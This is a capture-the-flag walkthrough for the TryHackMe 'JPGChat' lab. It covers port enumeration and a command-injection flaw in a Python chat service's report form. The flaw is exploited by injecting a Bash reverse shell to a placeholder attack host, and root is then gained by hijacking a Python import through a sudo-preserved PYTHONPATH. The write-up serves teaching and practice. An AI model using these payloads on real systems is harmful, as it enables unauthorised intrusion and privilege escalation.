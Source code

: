 # Try Hack Me - JPGChat

**Categories:** python3, os, chatting, report  
**Difficulty:** Easy  

Commands used in this guide use the exported variable $IP (`export IP=10.10.41.149`) in place of the target machine's IP address.

## 1: Enumeration - rustcan, nmap
 
Following a rustmap scan, we run a nmap version scan on the 2 discovered ports (22, 3000) : 

```console
┌──(kali㉿kali)-[~]
└─$ sudo nmap $IP -sV -p22,3000
...snip...
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
3000/tcp open  ppp?
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port3000-TCP:V=7.91%I=7%D=10/31%Time=617ED5FC%P=x86_64-pc-linux-gnu%r(N
SF:ULL,E2,"Welcome\x20to\x20JPChat\nthe\x20source\x20code\x20of\x20this\x2
SF:0service\x20can\x20be\x20found\x20at\x20our\x20admin's\x20github\nMESSA
```

A google / searchsploit search gives a username enumeration vulnerability for the discovered SSH version, but this isn't much use to us in this context. The output from the application on 3000 indicates that a custom service may be running on this port - we can confirm this by connecting to the service with netcat : 

```console
┌──(kali㉿kali)-[~]
└─$ nc $IP 3000
Welcome to JPChat
the source code of this service can be found at our admin's github
MESSAGE USAGE: use [MESSAGE] to message the (currently) only channel
REPORT USAGE: use [REPORT] to report someone to the admins (with proof)
```

The service's welcome message tells us that source code is available on Github, and running in "\[REPORT\]" mode gives us a possible account name :

```console
REPORT USAGE: use [REPORT] to report someone to the admins (with proof)
[REPORT]
this report will be read by Mozzie-jpg
your name:
```

A google search for "Mozzie-jpg github" reveals their GitHub page, with the source code for the service available in the [JPChat repository](https://github.com/Mozzie-jpg/JPChat).

## 2: Foothold - source code analysis, command injection

The source code is comprised of two functions : `chatting_service()` requests and handles user input, and `report_form()` implements the "\[REPORT\]" mode functionality :

```python
def report_form():
	print ('this report will be read by Mozzie-jpg')
	your_name = input('your name:\n')
	report_text = input('your report:\n')
	os.system("bash -c 'echo %s > /opt/jpchat/logs/report.txt'" % your_name)
	os.system("bash -c 'echo %s >> /opt/jpchat/logs/report.txt'" % report_text)
```

We probably didn't need access to the source code to identify this vulnerability, but the two calls to `os.system` are vulnerable to command injection. The user input passed to the `your_name` variable is concatenated to the call to `bash -c` without proper sanitization, allowing us to execute arbitrary commands by beginning our input with the command separation character ";". We can see more clearly how this allows for command injection by replicating the string concatenation locally :

```console
>>> print('echo %s > /opt/jpchat/logs/report.txt' % "; whoami ;")
echo ; whoami ; > /opt/jpchat/logs/report.txt
```

To exploit the vulnerability, we start an nc listener on the attack machine, and we pass a Bash reverse shell to either one of the input calls made by the service (the second ";" after the reverse shell is important - if we omit it, the shell output will be redirected by the ">" or ">>" used in the the original command) : 

```console
REPORT USAGE: use [REPORT] to report someone to the admins (with proof)
[REPORT]       
this report will be read by Mozzie-jpg
your name:
; bash -i >& /dev/tcp/ATTACK-IP/4242 0>&1 ;
your report:
anything
```

```console
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 4242
listening on [any] 4242 ...
connect to [ATTACK-IP] from (UNKNOWN) [10.10.41.149] 45044
wes@ubuntu-xenial:/$ id
id=1001(wes) gid=1001(wes) groups=1001(wes)
```

The user flag is at `/home/wes/user.txt`.

## 3: Privesc - python import hijacking

Running `sudo -l` as the wes user, we discover that they can run a python script `/opt/development/test_module.py` as root without providing a password : 

```console
wes@ubuntu-xenial:/$ sudo -l
Matching Defaults entries for wes on ubuntu-xenial:
    mail_badpass, env_keep+=PYTHONPATH

User wes may run the following commands on ubuntu-xenial:
    (root) SETENV: NOPASSWD: /usr/bin/python3 /opt/development/test_module.py
```

The script (which is not writeable by wes) is very simple, importing the compare module and calling `.Str` :

```python
#!/usr/bin/env python3

from compare import *

print(compare.Str('hello', 'hello', 'hello'))
```

This script is possible vulnerable to import hijacking. I've written more on import hijacking and how python resolves module imports in [a writeup on a different THM walkthrough (spoilers!)](./wonderland.md). In short, python searches for imported modules in locations on `sys.path`, always starting with the  script's parent directory, followed by locations defined by the PYTHONPATH environment variable, and finally checking standard python install directories.

Hijacking the import requires that we can write a replacement `compare.py` file to one of these locations. The `/opt/development` parent directory is not writeable by the wes user, and nor are the standard python install directories. That leaves the PYTHONPATH environment variable - obviously we can change this to whatever we want, but [sudo drops environment variables by default](https://man7.org/linux/man-pages/man5/sudoers.5.html#DESCRIPTION). Looking again at the output of `sudo -l` however, we see that an env_keep key is set for the PYTHONPATH variable, meaning that this variable will be preserved in the sudo environment :

```console
wes@ubuntu-xenial:/$ sudo -l
Matching Defaults entries for wes on ubuntu-xenial:
    mail_badpass, env_keep+=PYTHONPATH
```

So import hijacking is back on the menu - here's what we need to do :

1. Create a replacement `compare.py` file in wes' home directory. This file doesn't need to emulate the legitimate `compare.py` module in any way - python automatically executes any code contained in imported modules, so our malicious code will be executed before python errors out complaining that we didn't define the required `.Str` method.
2. Add wes' home directory to the PYTHONPATH environment variable
3. Call the script `/opt/development/test_module.py` using sudo - with env_keep preserving PYTHONPATH, the script will load our malicious `compare.py` module and execute our code as root. 

So to start, we create a `compare.py` file at `/home/wes` that launches a Bash shell :

```console
wes@ubuntu-xenial:/$ echo "import os; os.system('bash')" > /home/wes/compare.py
```

We then add `/home/wes` to the python path environment variable :

```console
export PYTHONPATH=/home/wes
```

and we call the `/opt/development/test_module.py` script using sudo : 

```console
wes@ubuntu-xenial:/$ sudo /usr/bin/python3 /opt/development/test_module.py
whoami && id
root
uid=0(root) gid=0(root) groups=0(root)
```

The root flag is at `/root/root.txt`
